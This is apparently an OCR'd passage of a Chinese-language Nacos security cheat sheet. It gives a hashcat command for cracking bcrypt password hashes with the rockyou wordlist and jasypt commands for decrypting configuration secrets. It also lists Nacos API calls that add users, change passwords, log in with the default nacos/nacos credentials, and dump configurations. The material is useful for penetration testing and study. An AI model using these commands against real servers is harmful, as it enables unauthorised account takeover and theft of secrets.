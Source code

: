   
### 10. 密码破解  
### nacos密码bcrypt  
  
hashcat -a 0 -m 3200 hashes.txt rockyou.txt -w 3 -O -D 1,2 --show  
### 配置文件密文 jasypt  
  
java -cp jasypt-1.9.3.jar org.jasypt.intf.cli.JasyptPBEStringEncryptionCLI input="123456" password="salt123" algorithm="PBEWithMD5AndDES"  
java -cp jasypt-1.9.3.jar org.jasypt.intf.cli.JasyptPBEStringDecryptionCLI input="MecKdyPwwkD+AqUKPy1GlQ==" password="salt123" algorithm="PBEWithMD5AndDES"  
### 11、常用命令  
  
http://127.0.0.1:8848/nacos/v1/console/server/state  
http://xx.xx.xx.xx/v1/console/server/state  
http://127.0.0.1:8848/nacos/v1/auth/users?search=accurate&pageNo=1&pageSize=9   get查询用户  
curl -v --data-binary "username=test&password=123456" "http://127.0.0.1:8848/nacos/v1/auth/users"  post添加用户  
curl -X PUT 'http://127.0.0.1:8848/nacos/v1/auth/users?accessToken=' -d 'username=test&newPassword=test123'  修改密码  
http://127.0.0.1:8848/nacos/v1/cs/configs?search=accurate&dataId=&group=&pageNo=1&pageSize=99  获取配置信息  
http://127.0.0.1:8848/nacos/v1/core/cluster/nodes  获取集群信息  
curl --data-binary "username=nacos&password=nacos" "http://127.0.0.1:8848/nacos/v1/auth/users/login"  登陆  
### 总结  
  
**在网络安全的世界里，停止学习就意味着落后，共勉！**  
  
  
